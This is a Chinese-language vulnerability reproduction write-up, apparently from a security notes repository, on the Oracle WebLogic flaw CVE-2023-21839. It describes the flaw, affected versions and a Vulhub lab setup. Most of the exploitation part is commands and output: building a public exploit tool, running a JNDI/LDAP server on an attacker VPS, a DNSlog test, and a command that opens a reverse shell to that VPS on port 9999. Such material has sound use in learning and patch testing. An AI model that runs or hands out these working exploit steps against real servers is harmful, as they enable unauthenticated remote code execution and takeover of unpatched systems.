


# Weblogic 未授权远程代码执行漏洞 CVE-2023-21839

## 漏洞描述

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞。

参考链接:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 漏洞影响

```
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

Vulhub执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面



## 漏洞复现

Weblogic CVE-2023-21839 RCE Exploit： https://github.com/4ra1n/CVE-2023-21839

需要使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server，此处使用 ：

- JNDIExploit：https://github.com/WhiteHSBG/JNDIExploit
- **java version：1.8.0_361**

如果发现 panic 或有其他报错，说明目标不存在漏洞（或关闭了 IIOP 功能）。

Linux/Mac OS：

```
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows：

```
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

在Windows上的DNS Log：

```
C:\Threekiii> CVE-2023-21839.exe -ip <your-vps-ip> -port 7001 -ldap ldap://9xqmx0.dnslog.cn
[*] your-ip: <your-vps-ip>
[*] your-port: 7001
[*] your-ldap: ldap://9xqmx0.dnslog.cn
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```


Windows上测试反弹Shell不成功，转到Linux系统执行。

启动JNDI服务器：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <your-vps-ip>

------------
[+] Basic Queries: ldap://<your-vps-ip>:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://<your-vps-ip>:1389/Basic/Dnslog/[domain]
    ldap://<your-vps-ip>:1389/Basic/Command/id
    ldap://<your-vps-ip>:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999  ---windows NOT supported
    ...
```

执行Exploit：

```
./CVE-2023-21839 -ip <your-vps-ip> -port 7001 -ldap ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999
```

监听9999端口，成功接收反弹Shell：




